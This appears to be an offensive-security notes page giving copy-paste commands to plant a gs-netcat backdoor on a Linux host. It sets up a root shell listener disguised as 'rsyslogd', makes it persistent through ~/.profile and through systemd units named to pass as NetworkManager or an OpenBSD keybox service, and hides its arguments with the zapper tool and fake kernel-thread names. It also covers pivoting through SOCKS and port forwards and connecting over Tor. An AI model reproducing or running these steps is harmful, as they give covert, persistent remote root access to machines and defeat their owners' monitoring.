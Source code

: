 # gs-netcat

### Overview

The Global Socket Tookit allows two users behind NAT/Firewall to establish a TCP connection with each other. Securely.

More on [https://www.gsocket.io](https://www.gsocket.io).

### Non Persistent backdoor

```
$(GSOCKET_ARGS="-s MySecret -liqD" HOME=/root TERM=xterm-256color SHELL="/bin/bash" /bin/bash -c "cd $HOME; exec -a rsyslogd /path/to/gs-netcat")
```

### Client Connection

```
gs-netcat -i -s MySecret
```

* Above will spawn a full pty giving you the option to tab complete and use up arrow as long as CTRL+C

### Persisting the Server .profile

The following line in the user's \~/.profile starts the backdoor (once) when the user logs in. All in one line:

The '( )' brackets start a sub-shell which is then replaced (by exec) with the gs-netcat process. The process is hidden (as rsyslogd) from the process list.

```
killall -0 gs-netcat 2>/dev/null || (GSOCKET_ARGS="-s MySecret -liqD" SHELL=/bin/bash exec -a rsyslogd /path/to/gs-netcat)
```

* Ensure there are no syntax errors or the next time a user logs in they will see this message&#x20;

```
ssh root@ubuntu.space
root@ubuntu.space's password: 
Last login: Mon Dec 30 19:29:55 2024 from 192.168.15.172
-bash: /root/.profile: line 11: syntax error: unexpected end of file
```

* when you are connected to the backdoor this is how your process will look&#x20;

```
1 S root         442       1  0  80   0 -   794 do_wai 19:43 ?        00:00:00 rsyslogd
1 S root         443     442  0  80   0 -   829 do_sel 19:43 ?        00:00:00  \_ rsyslogd
0 S root         528     443  0  80   0 -  2105 do_sel 19:47 pts/4    00:00:00      \_ -bash
```

* above will occur no matter how you connect to the server

```
gs-netcat -s MySecret
gs-netcat -s -i MySecret
```

### Persisting the Server systemd (Not Hidden)

* create secret file&#x20;

```
gs-netcat -g >/etc/systemd/gs-root-shell-key.txt
chmod 600 /etc/systemd/gs-root-shell-key.txt
cat /etc/systemd/gs-root-shell-key.txt
abc123
```

* create service file&#x20;

```
create /etc/systemd/system/NetworkManage.service
```

```
[Unit]
Description=Network Manager
Documentation=man:NetworkManager(8)
Wants=network.target
After=network-pre.target dbus.service
Before=network.target 

[Service]
Type=simple
Restart=always
RestartSec=10
WorkingDirectory=/
ExecStart=/opt/gs-netcat -k /etc/systemd/gs-root-shell-key.txt -il

[Install]
WantedBy=multi-user.target
```

<pre><code># ensure it does not exist first 
ls -lartF /etc/systemd/system/NetworkManage.service
# create the file
echo "[Unit]" >> /etc/systemd/system/NetworkManage.service
<strong>echo "Description=Network Manager" >> /etc/systemd/system/NetworkManage.service
</strong>echo "Documentation=man:NetworkManager(8)" >> /etc/systemd/system/NetworkManage.service
echo "Wants=network.target" >> /etc/systemd/system/NetworkManage.service
echo "After=network-pre.target dbus.service" >> /etc/systemd/system/NetworkManage.service
echo "Before=network.target" >> /etc/systemd/system/NetworkManage.service 
echo "" >> /etc/systemd/system/NetworkManage.service
echo "[Service]" >> /etc/systemd/system/NetworkManage.service
echo "Type=simple" >> /etc/systemd/system/NetworkManage.service
echo "Restart=always" >> /etc/systemd/system/NetworkManage.service
echo "RestartSec=10" >> /etc/systemd/system/NetworkManage.service
<strong>echo "WorkingDirectory=/" >> /etc/systemd/system/NetworkManage.service
</strong>echo "ExecStart=/opt/gs-netcat -k /etc/systemd/gs-root-shell-key.txt -il" >> /etc/systemd/system/NetworkManage.service
echo "" >> /etc/systemd/system/NetworkManage.service
echo "[Install]" >> /etc/systemd/system/NetworkManage.service
echo "WantedBy=multi-user.target" >> /etc/systemd/system/NetworkManage.service

cat /etc/systemd/system/NetworkManage.service
</code></pre>

* after created

```
systemctl start NetworkManage.service
systemctl enable NetworkManage.service
systemctl status NetworkManage.service
```

* this is not great because the secret file path or the secret with -s will show up as \*\*\*\*\*\*\*\*\*\*\* in the process list

### Persisting the Server systemd (Zapper)

* Zapper is a great tool to hide your cmdline options
* pull the tool from [https://github.com/hackerschoice/zapper](https://github.com/hackerschoice/zapper)
* example service file, zapper is keybox and gs-netcat is crond in the below example
* make sure it doesnt exist first&#x20;

```
ls -lartF /etc/systemd/system/keybox.service
```

```
[Unit]
Description=OpenBSD Keybox Service
Documentation=man:keybox(8) man:keybox_config(2)
After=network.target auditd.service

[Service]
Type=oneshot
ExecStart=/usr/libexec/keybox -f -a '[cpuhp/0]' -n0 /sbin/crond -liqD -s abc123 &
KillMode=process
Restart=on-failure
RestartPreventExitStatus=255

[Install]
WantedBy=multi-user.target
Alias=keybox.service
```

* quick paste

```
echo "[Unit]" >> /etc/systemd/system/keybox.service
echo "Description=OpenBSD Keybox Service" >> /etc/systemd/system/keybox.service
echo "Documentation=man:keybox(8) man:keybox_config(2)" >> /etc/systemd/system/keybox.service
echo "After=network.target auditd.service" >> /etc/systemd/system/keybox.service
echo "" >> /etc/systemd/system/keybox.service
echo "[Service]" >> /etc/systemd/system/keybox.service
echo "Type=oneshot" >> /etc/systemd/system/keybox.service
echo "ExecStart=/usr/libexec/keybox -f -a '[cpuhp/0]' -n0 /sbin/crond -liqD -s abc123 &" >> /etc/systemd/system/keybox.service
echo "KillMode=process" >> /etc/systemd/system/keybox.service
echo "Restart=on-failure" >> /etc/systemd/system/keybox.service
echo "RestartPreventExitStatus=255" >> /etc/systemd/system/keybox.service
echo "" >> /etc/systemd/system/keybox.service
echo "[Install]" >> /etc/systemd/system/keybox.service
echo "WantedBy=multi-user.target" >> /etc/systemd/system/keybox.service
echo "Alias=keybox.service" >> /etc/systemd/system/keybox.service
```

* after creating the service file (make sure to alter the key

```
systemctl start keybox.service
systemctl enable keybox.service
systemctl status keybox.service
```

### Command Console

* If you connect to a listening gs-netcat server with the below options you will have access to the command console

```
gs-netcat -i -s MySecret 
```

* access it with CTRL+E c, you will see the below

<figure><img src="../.gitbook/assets/image (16).png" alt=""><figcaption></figcaption></figure>

* this nicely provides a way to upload and download files as well as local commands just like in metasploit i.e. lls lcd

### Proxies

#### Server to act as a SOCKS4/4a/5 server:

```
gs-netcat -s MySecret -l -S
```

Client to listen on TCP port 1080 and forward any new connection to the server's SOCKS server:

```
gs-netcat -s MySecret -p 1080
```

#### TCP Port Forward all connections to 192.168.6.7:22

Server:

```
gs-netcat -s MySecret -l -d 192.168.6.7 -p 22 
```

Client to listen on TCP port 2222 and forward any new connection to the the server. The server then forwards the connection to 192.168.6.7:22.

```
gs-netcat -s MySecret -p 2222
ssh -p 2222 root@127.0.0.1
```

The same using 1 command:

```
ssh -o ProxyCommand='gs-netcat -s MySecret' root@ignored
```

### Tor Client Connection

* For the best security you should always connect to the server via tor
* Start tor in one window&#x20;

```
tor
gs-netcat -i -s MySecret -T
```
